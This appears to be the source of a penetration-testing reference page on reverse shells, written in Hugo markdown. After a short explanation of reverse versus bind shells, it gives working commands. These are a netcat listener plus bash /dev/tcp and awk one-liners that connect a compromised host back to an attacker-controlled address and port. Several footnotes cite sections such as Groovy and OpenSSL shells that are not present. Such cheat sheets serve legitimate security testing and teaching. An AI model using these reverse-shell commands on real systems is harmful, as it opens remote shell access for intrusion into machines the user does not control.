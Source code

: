```yaml
---
title: Reverse Shells
weight: 402
---
```

# Reverse Shells

## At a Glance

After the exploitation of a remote code execution (RCE) vulnerability, the next step will be to interact with the compromised target.
Reverse shells, as opposed to bind shells, initiate the connection from the remote host to the local host. They are especially handy and, sometimes the only way, to get remote access across a NAT or firewall.

The chosen shell will depend on the binaries installed on the target system, although uploading a binary can be possible.[^pentestmonkey][^swisskyrepo-shells]

## Unencrypted Shells

### Netcat Listener

To get the connection from the remote machine (_`{{< param "war.rhost" >}}`_) and interact with it, a listener have to be set on the desired port (_`{{< param "war.lport" >}}`_) on the local machine (_`{{< param "war.lhost" >}}`_).

```sh
sudo nc -nvlp {{< param "war.lport" >}}
```
{{<details "Parameters"></details>}}

{{<note>}}
Use a port that is likely allowed via outbound firewall rules on the target network.

Ports from 1 to 1023 are by default privileged ports. To bind to a privileged port, a process must be running with root permissions.
{{</note>}}

### Bash

```sh
bash -i >& /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}} 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}; sh <&196 >&196 2>&196
```

### Awk

```sh
awk 'BEGIN {s = "/inet/tcp/0/{{< param "war.lhost" >}}/{{< param "war.lport" >}}"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.